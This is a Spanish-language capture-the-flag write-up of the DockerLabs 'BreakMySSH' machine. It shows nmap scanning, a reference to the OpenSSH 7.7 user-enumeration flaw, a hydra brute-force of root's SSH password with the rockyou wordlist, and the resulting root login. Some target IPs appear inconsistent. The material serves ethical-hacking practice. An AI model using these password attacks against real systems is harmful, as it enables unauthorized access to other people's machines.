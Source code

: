 ```yaml
---
title: BreakMySSH
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2024-12-13
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-breakmyssh/breakmyssh_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - password_attacks
  - cve
  - ssh
  - tcp
  - information_gathering
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.044 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()	Status: Up
Host: 127.17.0.2 ()	Ports: 22/open/tcp//ssh///	Ignored State: closed (65534)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ sudo nmap -sCV -vvv -p22 -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfOr49bj2kh3ab2WutTu6Jx7NA7OKSxzp42bJU4nqtQlICZbjiBXhOa1ZKOfUfNvXOGEThiSrTNbf1nRGzXtACiZQp+RwQr5ZEYPAOyasC7C29FaIZVURR7FuFea+tfWZjbzDaP8WnA/U3TQHwtUBsNSR3qFscgJQ1niCyrfH/4rbUk5jiLYN6y8NjctGvsvwPE+cCiFVge76qyfzmZdaf5gJT9DKDt47iBkrngCODYrqqt+Bbl9ZEGh5SUfDqYfsFMIvlsSjmbx0HtMc2NhTW7jLtyV3Xm6ynFUZmQRPRqXdzuN5TIhYzaQD8ogC1Hk9sYJJNUMMF+lGVf15iouMn
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLJ77V//dhC1BX2KXpMNurk9hJPA3aukuoMLPajtYfaewmlwrsK5Rdss/I/iQ23YrziNvWb3VMJk511YbvvreZo=
|   256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICFLUqv+frul58FgQLXP91bNrTRC9d1X545DZJ0wsw6z
```

El único puerto abierto es el 22, y el servicio asociado es OpenSSH 7.7, el cual es vulnerable a enumeración de usuarios según CVE-2018-15473. Esta vulnerabilidad permite determinar si un usuario específico existe en el sistema.

<https://nvd.nist.gov/vuln/detail/cve-2018-15473>

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ searchsploit OpenSSH 7.7
```

![](/assets/img/dockerlabs-writeup-breakmyssh/breakmyssh1_1.png)

---
## Vulnerability Exploitation

Aunque la enumeración de usuarios es posible, puedo simplificar el ataque usando un usuario predeterminado, como root. Si la contraseña de este usuario se encuentra en una lista común, es viable realizar un ataque de fuerza bruta.

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ sudo hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```

![](/assets/img/dockerlabs-writeup-breakmyssh/breakmyssh1_2.png)

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ ssh root@127.17.0.2
root@127.17.0.2's password: estrella
root@kali:~# id
uid=0(root) gid=0(root) groups=0(root)
```
